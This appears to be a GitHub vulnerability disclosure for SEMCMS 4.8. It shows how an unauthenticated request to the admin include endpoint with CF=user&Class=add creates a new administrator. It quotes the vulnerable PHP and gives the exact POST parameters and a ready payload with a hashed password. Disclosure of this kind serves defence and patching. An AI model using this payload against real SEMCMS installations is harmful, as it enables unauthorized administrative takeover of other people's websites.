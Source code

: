 # semcms
Sem CMS 4.8 Unauthenticated User Gains Admin Privilege

Introduction to Semcms

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages.

v4.8 Download Link: http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
Causes of vulnerabilities:

/6EeOq0_Admin/Top_include.php

Vulnerable Code Blocks:

```
<?php
include_once './Include/inc.php';
include_once 'SEMCMS_Function.php';
$SCQuanXian=checkuser($db_conn);
?>
```

One can observe that the code installs SEMCMS_Funtion.php before checking if the admin is a valid user in the admin page because authentication funnction is called from there.

Below you can observe the authentication check function which starts at line 984 and ends at line 1013

```
}elseif($CF=="users"){  
 
   if($Class=="login"){ //登陆   
       
       $US=test_input($_POST['UserName']);
       $PS=test_input($_POST['UserPass']);
     
        if(empty($US) || empty($PS)){

                 echo "<script language='javascript'>alert('账号或密码不能为空!');top.location.href='index.html';</script>";

        }else{

                $PS=md5($PS);
                $query=$db_conn->query("select * from sc_user where user_admin='$US' and user_ps='$PS'");
                if (mysqli_num_rows($query)>0 ){

                      $row=mysqli_fetch_assoc($query);

                      setcookie("scusername", $row['user_name'],time()+3600*24,"/");
                      setcookie("scuseradmin", $row['user_admin'],time()+3600*24,"/");
                      setcookie("scuserpass", $row['user_ps'],time()+3600*24,"/");//设定时间为24个小时
                      header("Location:SEMCMS_Main.php");  

                  }else{

                       echo "<script language='javascript'>alert('账号或密码错误!');top.location.href='index.html';</script>";

                   }
        }
```



If we look further in 'SEMCMS_Funtion.php' to check what are the avaliable functions, the code snippet below found at 782 which is used to add or modify an admin:

```
elseif ($CF=="user"){

         $table="sc_user";

        if($Class=="add" || $Class=="edit"){ //信息添加

           $user_name=test_input($_POST['user_name']);
           $user_admin=test_input($_POST['user_admin']);
           $user_ps=  test_input($_POST['user_ps']);
           $user_tel=test_input($_POST['user_tel']);
           $user_email=test_input($_POST['user_email']);
           $field="user_name,user_admin,user_ps,user_tel,user_email";
           $val=array($user_name,$user_admin,$user_ps,$user_tel,$user_email); 

        }

        switch ($Class) {

          case 'add':

            if(empty($user_name) || empty($user_admin) || empty($user_ps) || empty($user_email)  ){  //判断空字段 

               header("Location:SEMCMS_User.php?type=add&err=003"); 

             }else{  //写入数据库
                
              $Ant->AntAdd($table,$field,$val,$db_conn); //写入数据库 
              header("Location: SEMCMS_User.php?lgid=".$languageID."&err=001");     
                
            }

            break;
```

When we visit the page http://url/6EeOq0_Admin/index.html  the application installs the login form. When we send a dumb login request we see that the credentials are posted to the end-point "/6EeOq0_Admin/SEMCMS_Top_include.php?CF=users&Class=login HTTP/1.1"

![image](https://github.com/turabiaslan/semcms/assets/32524544/5db25ff0-a3e0-40b5-a54a-053e54c4166a)

Observe the parameters: CF=users and Class=login. So The application calls SEMCMS_Top_include.php and then that page calls SEMCMS_Funtion.php. Let's send this request to Burp Suite's Repater.


If we change CF parameter to 'user' and Class parameter to 'add' like as shown in the last code snippet, we should be able to send an admin adding request to the "/6EeOq0_Admin/SEMCMS_Top_include.php?CF=user&Class=add" end-point.



There are five parameters present in the body of the request; user_name, user_admin, user_ps, user_tel, user_email. When we add this parameters to the request and supply values them respectively, we should be able to add an admin user without authenticating the application.
Below you can find the payload. user_ps value is the MD5 hash of string 1.

```
user_name=turabi&user_admin=Turabi&user_ps=c4ca4238a0b923820dcc509a6f75849b&user_tel=b&user_email=turabi@beam.com
```

![image](https://github.com/turabiaslan/semcms/assets/32524544/08a9bdf2-00f0-484e-bb7f-7f6ca7f44a31)



Let's try the new user on the application:

![image](https://github.com/turabiaslan/semcms/assets/32524544/4961d962-4728-429a-a641-d021a79ae590)


We successfully login to our newly added 

![image](https://github.com/turabiaslan/semcms/assets/32524544/87330e72-c1d8-4a14-b3c2-6e786cc212f4)
